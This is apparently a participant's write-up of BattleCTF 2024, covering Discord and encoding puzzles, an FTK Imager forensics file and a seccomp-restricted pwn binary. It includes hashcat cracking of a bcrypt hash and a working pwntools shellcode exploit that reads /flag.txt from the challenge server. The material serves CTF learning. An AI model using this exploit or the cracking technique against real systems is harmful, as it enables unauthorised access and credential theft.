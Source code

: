 ```yaml
---
title: BattleCTF 2024
author: McSam
date: 2024-12-27 04:45:00 +0800
categories: [CTF, battleCTF]
tags: [writeups, jeopardy]
math: true
mermaid: true
---
```


# BattleCTF 2024
Hi there, i participated in the battleCTF2024 under the name `sigsegv`. 

Here are the challenges i solved:
![Challenges Solved](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/images/challenges_solved.png)   

## Misc
### Rules
Upon joining the discord server and nagivating to the #announcements channel we obtain the flag.
![Rule Challenge flag](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Rules/images/rules_flag.png)  
Flag: `battleCTF{HereWeGo}`

### Invite Code
This challenge was a bit tricky because many i overlooked the message in the #notification channel before the CTF began. Luckily, after sometime i discovered it.   
![Invite Code First Image](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Invite%20Code/images/invite_code_discord.png) 

First thing i did was to pick up the encoded data and place it into `cyberchef`.    
![Cyber Chef Hex Data Decode](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Invite%20Code/images/invite_code_cyberchef_from_hex.png)   
We can see that the data provided was a hex dump and `cyberchef` decoded it successfully resulting in a contatenation of base64 string and a link. The base64 string just leads us to the Rick Roll video in YouTube and so that isn't vert relevant.

The other link `https://bugpwn.com/invite.ini` leads us to a page where some data is hosted on the website.
![Invite .ini file](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Invite%20Code/images/invite_ini_file.png)

This looks like some base64 data. We can use `cyberchef` to decode this.
![Invite .ini b64 data decoded](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Invite%20Code/images/invite_ini_b64_data_decoded.png)    

From `cyberchef` i downloaded the raw binary file and run the file command on it.
```
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ file download.gz 
download.gz: gzip compressed data, last modified: Fri Oct  4 11:25:31 2024, max compression, original size modulo 2^32 1081
```

I then decided to attempt unzipping the file with gunzip. After unzipping i read the contents of the file.
```
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ gunzip download.gz 
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ cat download
b'\xac\xed\x00\x05t(\x83<?xml version="1.0" encoding="utf-8" standalone="no" ?>
<!DOCTYPE users SYSTEM >
<users max="81">
	<user >
		<loginname>battlectf</loginname>
		<password>$2a$12$ecui1lTmMWKRMR4jd44kfOkPx8leaL0tKChnNid4lNAbhr/YhPPxq</password>
		<4cr_encrypt>05 5F 26 74 9B 8D D7 09 49 EB 61 94 5D 07 7D 13 AA E8 75 CD 6A 1E 79 12 DA 1E 8A E7 2F 5F DB 87 E4 0D D2 13 E4 82 EE 10 AC A7 3A BF 54 B2 A4 A5 36 EA 2C 16 00 89 AE B8 22 0B F5 18 CA 03 32 C8 C6 6B 58 80 EC 70 77 6E 16 5C 56 82 6F AD 0B C5 97 69 E9 B8 4E 54 90 95 BB 4D ED 87 99 98 BF EC D4 E2 8A 0D C5 76 03 89 A6 11 AB 73 67 A0 75 AE 3C 84 B6 5D 21 03 71 B8 D9 A0 3B 62 C0 5B 12 DA 5C 91 87 19 63 02 A4 3B 04 9F E0 AD 75 3E 35 C3 FB 1B 5E CB F0 5A A7 8B DF 00 8B DC 88 24 EF F4 EE CE 5C 3B F3 20 10 C2 52 DF 57 D2 59 5E 3E 46 D0 85 10 89 AC 09 07 EF C5 EE 1D 2F 89 1D 83 51 C6 52 38 13 2A D0 20 66 6D 52 B1 93 1B 21 06 9F E5 00 B7 AB 30 EB 98 7F CB 80 17 36 16 EF 73 BB 59 60 E4 4B F0 8A BD FF 85 A1 37 5D 4E C0 91 92 F2 68 C5 20 68 A0 A7 84 EB</4cr_encrypt>
	</user>
</users>\r\n<!-- battleCTF AFRICA 2024 -->\r\n
``` 
The content of the .gz file is an XML file with some interesting fields. The `4cr_encrypt` field contains some encrypted data. I assumed that the name `4cr_encrypt` was just a wordplay of the actual enctyption scheme `rc4_encrypt`. Now that we are aware if the encyption scheme used we can attempt to decrypt it which would require a password. Luckily, we also have a password field in the XML file which is also hashed.

At this point i saved the hash to a file and attempted to crack the password with John The Ripper. After a while we obtain the password.
```
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ hashcat -m 3200 hashes ~/Downloads/rockyou.txt 
...
$2a$12$ecui1lTmMWKRMR4jd44kfOkPx8leaL0tKChnNid4lNAbhr/YhPPxq:nohara
``` 

Using this password and cyberchef i decrypted the data successfully to obtain the flag.
![Invite Code Flag Image](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Invite%20Code/images/invite_code_flag.png) 
Flag: `battleCTF{pwn2live_d7c51d9effacfe021fa0246e031c63e9116d8366875555771349d96c2cf0a60b}`

## Forensics
### Do[ro x2]
This was an interesting and very simple foresics challenge where were provided with a file having a **.ad1** (`roro.ad1`) extension. After a little googling and reading i discovered that it was an **evidence file** and the `AccessData FTK Imager` tool can be used to parse it.

I quickly jumped to my windows virtual machine to download and install`AccessData FTK Imager`. After importing the evidence file `AccessData FTK Imager` asks for password.
![FTK Imager Evidence File Import](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Dororo/images/FTK_imager_windows.png) 

Immediately it hit me that the name of the challenge could be a hint to the password. I then tried the password `Dororo` and viola! i obtained the flag.
![Doror Flag](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Dororo/images/dororo_flag.png) 
Flag: `BattleCTF{You_d0_1t_like_4_pro_forensicator6578888}`

## Pwn
### Universe
For this pwn challenge we were proivded with a ELF binary `universe`. I run `checksec` on the file to get a security overview of the file.
![Checksec Universe](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Universe/images/checksec_universe.png)  

This is an x64 little endian exucutable with NX and PIE enabled.

Next thing was to run the binary to see it's functionality before diving into any sorts of static or dynamic analysis techniques.
![Running Universe](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Universe/images/running_universe.png)

After this, i opened it up in `Ghidra` to view the decompilation and better understand how the `universe` executable was working.
As always, i analyse the main function first since it is the entry point to every application.
![Ghidra Universe Main Func Decompilation](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Universe/images/main_function_decompilation.png) 

We can see from the image on line 20 that the pointer **pcVar1** is dereferenced and and it's content is executed. We also observe on line 10 that **pcVar1** is a pointer to a free **0x1000** bytes of memory space. Inside the for loop on line 18 we see that data is read into **pcVar1** and the loop only breaks when the **0x1000** bytes is full. The content content of the pointer **pcVar1** is then executed.

This seems very straight forward and we can immediately see that we can execute code. There's just one small problem. The function `FUN_00101208()` is called before all this. That function contains code to block certain syscalls using `seccomp`.
![Seccomp Load](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Universe/images/seccomp_load.png) 

![Seccomp Rule Add](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Universe/images/seccomp_rule_add.png)    

After discovering this, i used `seccomp-tools` to get a dump of the rules applied.
![Seccomp Tools Dump](https://github.com/theMcSam/battleCTF-writeups/blob/main/battleCTF2024/Universe/images/seccomp_tools_dump.png)    

We can see that certain `syscalls` have been blocked and as a result we would have to craft our exploit shellcode with a `syscalls` that have not been listed here. In most CTFs the goal is to obtain the flag so i started searching for alternative `syscalls` i could abuse to read files on the target and get the flag.  After some searching, i decided to go with the `openat()` `syscall` to open and read files.

Using pwntools python library i crafted an exploit.
Find exploit code here:
```python
from pwn import *

context.clear(arch="amd64")

shellcode = shellcraft.linux.openat(-1, "/flag.txt")
shellcode += shellcraft.linux.read('rax', 'rsp', 100)
shellcode += shellcraft.linux.write(1, 'rsp', 100)

assembled_shellcode = asm(shellcode)
padding_size = 4096 - len(assembled_shellcode)
payload = assembled_shellcode + b'\x90' * padding_size

def main():
    io = remote("challenge.bugpwn.com",1004)
    io.sendline(payload)
    io.interactive()

if __name__ == "__main__":
    main()
```

Upon executing this script i obtained the flag.
```
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF/pwn/universe$ python3 read.py 
...
Africa battleCTF 2024
By its very subject, cosmology flirts with metaphysics. Because how can we study an object from which we cannot extract ourselves? Einstein had this audacity and the Universe once again became an object of science. Without losing its philosophical dimension.
What do you think of the universe?
battleCTF{Are_W3_4l0ne_!n_7he_univ3rs3?_0e2899c65e58d028b0f553c80e5d413eeefef7af987fd4181e834ee6}
\xa3p[*] Got EOF while reading in interactive
```

Flag: `battleCTF{Are_W3_4l0ne_!n_7he_univ3rs3?_0e2899c65e58d028b0f553c80e5d413eeefef7af987fd4181e834ee6}`